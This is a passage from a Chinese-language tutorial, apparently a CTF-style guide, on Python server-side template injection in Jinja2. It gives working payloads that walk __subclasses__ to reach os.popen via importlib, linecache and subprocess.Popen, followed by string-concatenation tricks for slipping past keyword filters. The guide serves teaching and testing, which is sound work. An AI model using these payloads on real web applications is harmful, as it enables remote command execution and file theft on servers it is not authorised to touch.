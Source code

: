 首先编写脚本遍历目标Python环境中 **importlib** 类的索引号

构造如下payload即可执行命令：

```python
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls /").read()}}
```

### 寻找 linecache 函数执行命令

linecache 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块，所以我们也可以利用这个 linecache 函数去执行命令。

首先编写脚本遍历目标Python环境中含有 **linecache** 这个函数的子类的索引号

随便挑一个子类构造payload即可：

```python
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__['linecache']['os'].popen('ls /').read()}}
```

### 寻找 subprocess.Popen 类执行命令

从python2.4版本开始，可以用 **subprocess** 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。

subprocess 意在替代其他几个老的模块或者函数，比如：`os.system`、`os.popen` 等函数。

**查找subprocess索引**

则构造如下payload执行命令即可：

```python
{{[].__class__.__base__.__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}  
# {{[].__class__.__base__.__subclasses__()[245]('要执行的命令',shell=True,stdout=-1).communicate()[0].strip()}}
```

0x03 绕过！
========

关键字绕过
-----

### 拼接绕过

我们可以利用“+”进行字符串拼接，绕过关键字过滤

但是往往这种绕过需要一定的条件，返回的要是**字典类型**的或是**字符串格式**的，即payload中**引号内**的，在调用的时候才可以使用字符串拼接绕过，我们要学会怎么把被过滤的命令放在能拼接的地方。

```python
{{().__class__.__bases__[0].__subclasses__()[40]('/fl'+'ag').read()}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("o"+"s").popen("ls /").read()')}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil'+'tins__']['eval']('__import__("os").popen("ls /").read()')}}
```

